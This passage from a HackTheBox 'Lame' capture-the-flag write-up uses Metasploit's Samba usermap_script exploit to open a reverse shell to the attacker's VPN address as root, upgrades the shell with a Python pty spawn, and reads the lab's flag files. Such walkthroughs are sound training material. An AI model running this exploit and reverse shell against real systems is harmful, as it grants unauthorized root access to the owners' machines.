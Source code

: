 But now we also need to modify `LHOST`: the IP address for the reverse shell to connect to. That should be our machine, so we'll specify `tun0` (since we are connected over VPN to HackTheBox network), which will automatically resolve to, in my case, `10.10.14.3`:

```
msf6 exploit(multi/samba/usermap_script) > set LHOST tun0
LHOST => 10.10.14.4
```

Now we are ready to run the exploit:

```

msf6 exploit(multi/samba/usermap_script) > run
[*] Started reverse TCP handler on 10.10.14.4:4444
[*] Command shell session 1 opened (10.10.14.4:4444 -> 10.10.10.3:54240) at 2025-06-13 13:48:38 +0200


```

Nothing seems to be happening, but in fact, our reverse shell is ready to rock!

```
[*] Command shell session 1 opened (10.10.14.4:4444 -> 10.10.10.3:47299) at 2025-06-13 13:54:17 +0200

id
uid=0(root) gid=0(root)
```

We are definitely rocking, and we are the `root` user! That answers task #6. We can "upgrade" this shell to one with a prompt by using Python to spawn Bash:

```
[*] Command shell session 1 opened (10.10.14.4:4444 -> 10.10.10.3:47299) at 2025-06-13 13:54:17 +0200

id
uid=0(root) gid=0(root)
python -c 'import pty; pty.spawn("/bin/bash")'
root@lame:/#
```

## Grabbing our flags

Straightforward, but let's collect what we worked so hard for:

```
root@lame:/# ls /home
ftp makis service user

root@lame:/# cd /home/makis

root@lame:/home/makis# ls
user.txt

root@lame:/home/makis# cat user.txt
66dbc46af4632be3690785122719dfdd

root@lame:/home/makis# cat /root/root.txt
5296ea54e19165d0e8a25495153cca97
```

